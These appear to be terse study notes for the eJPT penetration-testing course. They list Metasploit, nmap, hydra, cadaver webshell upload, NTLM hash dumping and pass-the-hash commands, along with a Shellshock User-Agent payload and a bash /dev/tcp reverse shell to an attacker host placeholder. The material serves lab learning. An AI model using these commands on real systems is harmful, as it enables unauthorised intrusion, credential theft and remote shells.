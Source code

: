 # 08hakr's Short Notes eJPT
# Vulnerability-Assessment-Course-File

# Vulnerability Assessment
## 
- nmap -sn <target-ip>/24
- msfconsole
- setg rhosts <target-ip>
- workspace -a MS3
- db_nmap -sS -sV -O <target-ip>
- search glassfish
- set payload windows/meterpreter/reverse_tcp
- back
- searchsploit "Microsoft windows SMB" | grep -e "Metasploit"
- load db_autopwn
- db_autopwn
- analyze
- vulns

## WebDAV Vulnerabilities
- Tools:
 - dabtest
 - cadaaver
- nmap -sV -sC <target-ip>
- nmap -sV -p80 --script=http-enum <target-ip>
- hydra -L /usr/share/wordlists/metasploit/common_users.txt -P common_pass.txt <target-ip> http-get /webdav/
- davtest (tool: use to check the webDav IIS vulnerability of file upload ) 
- davtest -auth bob:password_123321 -url http://<target-ip>/webdav
- cadaver http://target/webdav (tool used to exploit the this webDav Vulnerability )
- $ ls -al /usr/share/webshells
- c$ put /usr/share/webshells/asp/webshell.asp
- dir type 

# Vulnerability analysis wwindows
## EternalBlue windows 445
- nmap -sV -p445 -O <target-ip >
- search eternal blue and exploit it

## BlueKeep RDP vulnerability 3389 windows xp vista 7 2008 & r2 
- msfconsole
- search bluekeep
- use set run
- show targets
- set target 2

## WinRM Pass The Hash
- metasploit PsExec module and Crackmapexec
- badBlue module
- pgrep lsass
- load kiwi 
- lsa_dump_sam]
- hash NTLM :
- hashdump
name:SID:LMHash<same for every user>: NT hash
- search psexec
- set SMBpass NTLM
- run 
- set target commond/Native upload

- $ crackmapexec smb <target-ip> -u Administrator -H "NTHash"

## Frequently Exploited Linux Services
## Shellshock Linux 
- nmap -sV <target-ip>
- nmap --script=http-shellshock --script-args "http-shellshoock.uri=/gettime.cgi"
- capture in burp 
User-Agent: () {:;}; echo; echo; /bin/bash -c 'catt /etc/passwd'
-  -c 'bash -i>&/dev/tcp/<attacker-ip>/<port> 0>&1'

- with metasploit 
- search shellshock
- auxiliary and exploit module
- set rhosts and targeturi /gettime.cgi
- 

## Vulnerability Scanning Nessus 
- Nessus Essential free
- sudo systemctl start nessud.service

## Web App Vulnerability Scanning with WMAP
- metasploit Plugin
- load and start
- load wmap
- wmap_TAB
- wmap_sites -a 192.157.89.3
- wmap_targets -t http://192.157.89.3
- wmap_sites -l
- wmap_targets -l
- wmap_run -t
- wmap_run -e


